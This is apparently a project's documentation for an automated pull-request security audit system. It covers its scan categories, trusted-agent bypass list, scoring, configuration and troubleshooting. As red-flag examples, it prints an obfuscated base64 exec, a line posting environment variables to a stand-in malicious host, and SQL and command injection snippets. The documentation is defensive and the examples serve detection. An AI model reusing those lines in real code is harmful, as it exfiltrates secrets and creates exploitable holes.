

# Security Audit System

## Overview

The Agent Forge Security Audit System provides mandatory security scanning for pull requests from non-trusted contributors. This system protects the codebase from common vulnerabilities, malicious code, and licensing issues while allowing trusted agent accounts to bypass audits for seamless automation.

**Status:** ✅ Active (Issue #62 - Implemented October 2025)

## Architecture

### Components

1. **SecurityAuditor** (`agents/security_auditor.py`)
   - Core scanning engine with 6 audit methods
   - Integrates with industry-standard security tools
   - Returns structured audit results with severity scoring

2. **PRReviewer Integration** (`agents/pr_reviewer.py`)
   - Checks PR author against trusted agents list
   - Triggers mandatory audit for non-trusted authors
   - Blocks merge on critical/high severity issues
   - Posts detailed security reports as PR comments

3. **Configuration Files**
   - `config/agents/*.yaml` - Defines trusted agent accounts
   - `config/security_audit.yaml` - Audit behavior and thresholds

### Audit Flow



## Audit Methods

### 1. Secrets Scanning
**Category:** `secrets`

Detects hardcoded credentials in code:
- API keys and tokens (AWS, GitHub, OpenAI, etc.)
- Passwords and database credentials
- Private keys and certificates
- OAuth tokens and session IDs

**Patterns Detected:**
```python
# ❌ Hardcoded credentials
password = "admin123"
api_key = "sk-abc123xyz456"
AWS_SECRET_KEY = "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"

# ✅ Environment variables
password = os.getenv('DB_PASSWORD')
api_key = os.getenv('OPENAI_API_KEY')
```

### 2. Dependency Vulnerability Checking
**Category:** `dependency`

Scans for known CVEs in dependencies:
- **Python:** Uses `safety` to check PyPI packages
- **Node.js:** Uses `npm audit` for npm packages
- Checks against CVE databases
- Reports severity (critical/high/medium/low)

**Example Output:**
```
🚨 CRITICAL: requests==2.25.0 (CVE-2021-12345)
  Known vulnerability in SSL certificate validation
  Upgrade to requests>=2.26.0
```

### 3. Injection Risk Detection
**Category:** `injection`

Identifies code execution vulnerabilities:
- SQL injection (raw queries, string concatenation)
- Command injection (shell=True, os.system)
- XSS vulnerabilities (unescaped HTML)
- Path traversal attacks
- LDAP injection

**Blocked Patterns:**
```python
# ❌ SQL Injection
cursor.execute(f"SELECT * FROM users WHERE name = '{user_input}'")

# ✅ Parameterized queries
cursor.execute("SELECT * FROM users WHERE name = ?", (user_input,))

# ❌ Command injection
os.system(f"ping {user_input}")

# ✅ Subprocess with list args
subprocess.run(['ping', user_input], check=True)
```

### 4. Malicious Pattern Detection
**Category:** `malware`

Identifies suspicious code patterns:
- Code obfuscation (base64, hex encoding, eval chains)
- Unexpected network connections
- File system manipulation
- Process spawning
- Dynamic code execution
- Cryptomining indicators

**Red Flags:**
```python
# ❌ Obfuscated code
exec(base64.b64decode('aW1wb3J0IG9z').decode())

# ❌ Suspicious network call
requests.post('http://malicious-server.com', data=env_vars)

# ❌ Unrestricted eval
eval(user_input)
```

### 5. License Compliance
**Category:** `license`

Validates dependency licenses:
- **Allowed:** MIT, Apache-2.0, BSD-3-Clause, ISC, Python-2.0
- **Forbidden:** AGPL (copyleft), Proprietary, Commercial
- Detects license conflicts
- Reports unlicensed dependencies

### 6. Code Quality Scanning
**Category:** `code_quality`

Static analysis for security-relevant issues:
- Uses `bandit` for Python security linting
- Detects insecure functions (assert_used, md5/sha1 hashing)
- Finds weak cryptography
- Identifies dangerous file permissions
- Reports insecure deserializations

## Configuration

### Trusted Agents

Define accounts that bypass security audits in `config/agents/*.yaml`:

```yaml
trusted_agents:
  - username: m0nk111-bot
    role: bot
    trusted: true
    description: "Main bot account for automated tasks"
  
  - username: m0nk111-qwen-agent
    role: developer
    trusted: true
    description: "Qwen-based coding agent"
```

**Trust Criteria:**
- Account controlled by project maintainers
- Thoroughly tested automation
- No direct user input processing
- Code review by multiple maintainers

### Audit Behavior

Configure scanning in `config/security_audit.yaml`:

```yaml
# Severity thresholds
thresholds:
  block_on_critical: true    # Block merge on critical issues
  block_on_high: true         # Block merge on high issues
  warn_on_medium: true        # Allow but warn on medium issues
  warn_on_low: false          # Ignore low severity issues
  minimum_score: 70.0         # Minimum passing score (0-100)

# Performance limits
performance:
  timeout_seconds: 300        # Max audit time (5 minutes)
  max_file_size_mb: 1         # Skip files larger than 1MB
  max_files_per_pr: 100       # Skip PRs with >100 changed files
  
# Exclusions
exclude_patterns:
  - node_modules/**
  - venv/**
  - __pycache__/**
  - "*.pyc"
  - dist/**
  - build/**

# License compliance
license_policy:
  allowed:
    - MIT
    - Apache-2.0
    - BSD-3-Clause
  forbidden:
    - AGPL-3.0
    - Proprietary
```

## Security Score Calculation

The audit produces a score from 0-100:

```python
base_score = 100
deductions = {
    'critical': 30 points each,
    'high': 20 points each,
    'medium': 10 points each,
    'low': 5 points each
}
final_score = max(0, base_score - sum(deductions))
```

**Score Thresholds:**
- **90-100:** Excellent (no issues)
- **70-89:** Pass (minor issues only)
- **50-69:** Fail (requires fixes)
- **0-49:** Critical fail (severe vulnerabilities)

## PR Blocking Logic

```python
# PRs blocked if:
audit.passed == False  # Audit failed overall
OR
audit.critical_count > 0  # Any critical issues
OR
audit.high_count > 0  # Any high severity issues
OR
audit.score < 70.0  # Score below threshold
```

## Security Report Format

When a PR is blocked, the auditor posts a detailed comment:

```markdown
## 🚨 SECURITY AUDIT FAILED - PR BLOCKED

**Security Score:** 45.0/100 (threshold: 70.0)

This pull request from a non-trusted account has **failed mandatory security checks**.
The PR cannot be merged until all critical and high-severity issues are resolved.

### 📊 Issue Summary

- 🔴 **Critical:** 2
- 🟠 **High:** 3
- 🟡 **Medium:** 1
- 🔵 **Low:** 0

### 🚨 Critical & High Severity Issues

#### 🔑 SECRETS

**🔴 CRITICAL** - `src/config.py`
  - Line 45
  - Hardcoded API key detected: 'sk-abc123xyz456'
  - ✅ **Fix:** Use environment variables (os.getenv('API_KEY'))
  - 🔗 [CWE-798](https://cwe.mitre.org/data/definitions/798.html)

#### 💉 INJECTION

**🟠 HIGH** - `src/database.py`
  - Line 112
  - SQL injection vulnerability in raw query
  - ✅ **Fix:** Use parameterized queries with placeholders
  - 🔗 [CWE-89](https://cwe.mitre.org/data/definitions/89.html)

### 🔧 Next Steps

1. **Review and fix** all critical and high severity issues listed above
2. **Test your changes** thoroughly to ensure fixes don't break functionality
3. **Push updated code** - the security audit will automatically re-run
4. **Contact a maintainer** if you believe any issues are false positives

---
*🤖 Automated Security Audit by m0nk111-bot • Agent Forge Security System v1.0*
```

## Usage Examples

### Adding a Trusted Agent

1. Edit `config/agents/*.yaml`:
```yaml
trusted_agents:
  - username: new-agent-account
    role: developer
    trusted: true
    description: "New team member's automation account"
```

2. Commit and push:
```bash
git add config/agents/*.yaml
git commit -m "feat(security): add new-agent-account to trusted agents"
git push
```

3. Restart the service:
```bash
sudo systemctl restart agent-forge
```

### Handling False Positives

If the audit incorrectly flags safe code:

1. **Review the issue** - Is it truly a false positive?
2. **Add exclusion** to `config/security_audit.yaml`:
```yaml
exclude_patterns:
  - path/to/safe/file.py  # Reason: Uses safe eval for config DSL
```

3. **Contact maintainer** to manually override audit
4. **Improve detection** - Submit issue to improve pattern matching

### Testing the Audit Locally

```bash
# Install dependencies
pip install bandit safety

# Run bandit on code
bandit -r agents/ -f json -o bandit_report.json

# Check dependency vulnerabilities
safety check --json

# Simulate audit
python -c "
from agents.security_auditor import SecurityAuditor
import asyncio

async def test():
    auditor = SecurityAuditor()
    result = await auditor.audit_pr('owner/repo', 123, files)
    print(f'Passed: {result.passed}, Score: {result.score}')

asyncio.run(test())
"
```

## Security Considerations

### Audit Bypass Risks

**Risk:** Compromised trusted agent account could bypass all audits

**Mitigation:**
- Use strong authentication (2FA required)
- Rotate API tokens regularly
- Monitor trusted agent activity
- Regular security reviews of automation code
- Least privilege principle (minimal permissions)

### Performance Impact

**Risk:** Audit slows PR review process

**Mitigation:**
- 5-minute timeout prevents indefinite hangs
- Skip large files (>1MB) and massive PRs (>100 files)
- Parallel scanning where possible
- Cache dependency audit results

### False Positives

**Risk:** Legitimate code flagged as malicious

**Mitigation:**
- Manual override by maintainers
- Exclude patterns for known safe code
- Contextual analysis (not just regex matching)
- Regular pattern refinement

## Dependencies

Required packages (automatically installed):

```txt
bandit>=1.7.5      # Python security linting
safety>=3.0.0      # Dependency vulnerability scanning
```

Optional tools (enhanced detection):
```txt
semgrep>=1.0.0     # Advanced pattern matching
npm>=8.0.0         # Node.js dependency auditing
```

## Troubleshooting

### Audit Fails to Run

**Symptom:** PRs from non-trusted authors proceed without audit

**Diagnosis:**
```bash
# Check if SecurityAuditor is importable
python -c "from agents.security_auditor import SecurityAuditor; print('OK')"

# Check configuration
cat config/security_audit.yaml | grep -A5 'thresholds'

# Review logs
journalctl -u agent-forge -f --no-pager | grep 'security audit'
```

**Solutions:**
- Install missing dependencies: `pip install bandit safety`
- Fix YAML syntax errors in config files
- Ensure file permissions allow reading config files

### Audit Always Blocks PRs

**Symptom:** All external PRs blocked even with clean code

**Diagnosis:**
```bash
# Check threshold settings
grep 'minimum_score' config/security_audit.yaml

# Test with verbose logging
DEBUG=1 python agents/security_auditor.py
```

**Solutions:**
- Lower `minimum_score` threshold (70.0 is default)
- Add exclude patterns for test fixtures
- Review and fix overly aggressive patterns

### Trusted Agent Not Recognized

**Symptom:** Bot account triggers security audits

**Diagnosis:**
```bash
# Verify trusted agents list
cat config/agents/*.yaml | grep -A10 'trusted_agents'

# Check exact username match
python -c "
import yaml
with open('config/agents/*.yaml') as f:
    config = yaml.safe_load(f)
    print([a['username'] for a in config.get('trusted_agents', [])])
"
```

**Solutions:**
- Ensure exact username match (case-sensitive)
- Set `trusted: true` explicitly
- Restart service after config changes

## Maintenance

### Regular Tasks

**Weekly:**
- Review blocked PRs for false positives
- Update `safety` database: `safety check --update`

**Monthly:**
- Audit trusted agents list (remove inactive accounts)
- Review exclusion patterns (prune unnecessary entries)
- Update bandit/safety versions

**Quarterly:**
- Security review of audit configuration
- Penetration test with deliberately malicious PRs
- Performance benchmarking

### Updating Security Tools

```bash
# Update Python security tools
pip install --upgrade bandit safety

# Update npm (if used)
npm install -g npm@latest

# Restart service
sudo systemctl restart agent-forge
```

## Related Documentation

- [PR Review System](BOT_USAGE_GUIDE.md#pr-review) - Standard review process
- [Agent Configuration](../config/agents/*.yaml) - Trusted agents list
- [Security Config](../config/security_audit.yaml) - Audit behavior settings
- [GitHub Issue #62](https://github.com/m0nk111/agent-forge/issues/62) - Original feature request

## Support

For security concerns or questions:
- **Security issues:** Email security@example.com (do not create public issues)
- **False positives:** Create issue with label `security-audit`
- **Feature requests:** Label issue with `enhancement` + `security`

---

**Last Updated:** October 2025  
**Version:** 1.0  
**Maintainer:** Agent Forge Security Team
